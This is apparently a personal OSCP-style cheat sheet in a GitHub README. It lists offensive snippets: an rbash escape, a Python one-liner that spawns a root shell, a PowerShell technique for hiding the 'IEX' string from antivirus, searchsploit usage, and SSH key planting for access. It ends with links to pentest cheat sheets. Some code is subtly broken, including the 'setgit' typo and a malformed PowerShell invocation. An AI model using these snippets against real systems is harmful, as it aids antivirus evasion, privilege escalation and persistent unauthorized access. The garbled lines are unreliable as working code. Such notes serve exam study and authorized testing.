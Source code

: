 # Useful Commands
This is just a collection of useful code snippets that can come in handy, in no particular order (mainly for my own use for the exam)

---

## Table of Contents
- [rbash Escape](#rbash%20escape)
- [Python root shell](#python%20spawn%20root%20shell)
- [IEX AV Evasion](#iex%20av%20evasion%20technique)

---

## rbash Escape
The easiest rbash escape (if you can SSH): 
```bash
ssh user@box -t "bash --noprofile"
```

---

## Python spawn root shell
Create a root bash prompt:
```bash
python -c 'import os,pty;os.setuid(0);os.setgit(0);pty.spawn("/bin/bash");'
```
(try Python3 if python doesn't work)

---

## "IEX" AV evasion technique

The following code snippet will generate the "IEX" string without explicitly writing it (which may help against overzealous AV software).

```powershell
$env:comspec[4,15,25] -join
```

It can then be used this way:

```powershell
'(CODE TO EXECUTE HERE)' | &($env[comspec[4,15,25] -Join '')
```

---

## Random Commands

Searchsploit
```
searchsploit -x <path>  # View exploit code
searchsploit -m <path>  # Copy exploit to working directory
```

Generate an SSH-key
1. Generat the key with: `ssh-keygen -f <boxname>`
2. Copy the public into authorized_keys
3. `chmod 600 .ssh/authorized_keys`
4. `chmod 600 <boxname>`
5. `ssh -i <boxname> <user>@<target_ip>`

Run-As in Powershell
`powershell -Command "Start-Process cmd -Verb RunAs"`

Generate Wordlists with `Cewl` for sites

---

## Cheatsheets and useful vids

TJ Null's OSCP-like list: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159

Random vulns and stuff: https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e

IppSec's video search page: https://ippsec.rocks/

PortSwigger's SQLi Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

LFI Cheat Sheet: https://highon.coffee/blog/lfi-cheat-sheet/
